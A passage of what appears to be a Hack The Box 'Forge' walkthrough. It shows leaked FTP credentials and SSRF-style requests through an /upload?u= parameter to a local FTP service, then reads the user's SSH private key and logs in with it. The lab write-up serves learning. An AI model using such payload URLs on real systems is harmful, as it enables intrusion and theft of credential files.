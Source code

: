 `/announcements` reveals potentials credentials(user:heightofsecurity123!) as well as the way to access ftp through `/upload` paremeter:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forge/image-18.png)

Using the following url, I can access FTP:

`http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forge/image-19.png)

Since I can read contents inside the server through ftp, I will try reading **id_rsa** from `.ssh` and it works:


`http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@127.0.1.1/.ssh/id_rsa`


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forge/image-20.png)

After copying **id_rsa** in to a file name mykey to my local kali machine, now I have SSH access as **user**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/forge/image-21.png)
